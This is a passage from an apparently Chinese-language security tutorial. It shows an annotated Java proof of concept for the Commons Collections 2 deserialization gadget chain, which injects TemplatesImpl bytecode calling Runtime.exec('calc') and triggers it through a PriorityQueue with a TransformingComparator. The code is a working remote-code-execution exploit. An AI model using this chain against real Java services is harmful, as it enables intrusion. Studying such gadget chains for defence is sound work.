 ```java
        ClassPool classPool=ClassPool.getDefault();//返回默认的类池
        classPool.appendClassPath(AbstractTranslet);//添加AbstractTranslet的搜索路径
        CtClass payload=classPool.makeClass("CommonsCollections22222222222");//创建一个新的public类
        payload.setSuperclass(classPool.get(AbstractTranslet));  //设置前面创建的CommonsCollections22222222222类的父类为AbstractTranslet
        payload.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"calc\");"); //创建一个空的类初始化，设置构造函数主体为runtime

        byte[] bytes=payload.toBytecode();//转换为byte数组

        Object templatesImpl=Class.forName(TemplatesImpl).getDeclaredConstructor(new Class[]{}).newInstance();//反射创建TemplatesImpl
        Field field=templatesImpl.getClass().getDeclaredField("_bytecodes");//反射获取templatesImpl的_bytecodes字段
        field.setAccessible(true);//暴力反射
        field.set(templatesImpl,new byte[][]{bytes});//将templatesImpl上的_bytecodes字段设置为runtime的byte数组

        Field field1=templatesImpl.getClass().getDeclaredField("_name");//反射获取templatesImpl的_name字段
        field1.setAccessible(true);//暴力反射
        field1.set(templatesImpl,"test");//将templatesImpl上的_name字段设置为test

        InvokerTransformer transformer=new InvokerTransformer("newTransformer",new Class[]{},new Object[]{});
        TransformingComparator comparator =new TransformingComparator(transformer);//使用TransformingComparator修饰器传入transformer对象
        PriorityQueue queue = new PriorityQueue(2);//使用指定的初始容量创建一个 PriorityQueue，并根据其自然顺序对元素进行排序。
        queue.add(1);//添加数字1插入此优先级队列
        queue.add(2);//添加数字1插入此优先级队列

        Field field2=queue.getClass().getDeclaredField("comparator");//获取PriorityQueue的comparator字段
        field2.setAccessible(true);//暴力反射
        field2.set(queue,comparator);//设置queue的comparator字段值为comparator

        Field field3=queue.getClass().getDeclaredField("queue");//获取queue的queue字段
        field3.setAccessible(true);//暴力反射
        field3.set(queue,new Object[]{templatesImpl,templatesImpl});//设置queue的queue字段内容Object数组，内容为templatesImpl

        ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("test.out"));
        outputStream.writeObject(queue);
        outputStream.close();

        ObjectInputStream inputStream=new ObjectInputStream(new FileInputStream("test.out"));
        inputStream.readObject();
    }
}
```

#### Exp构造分析
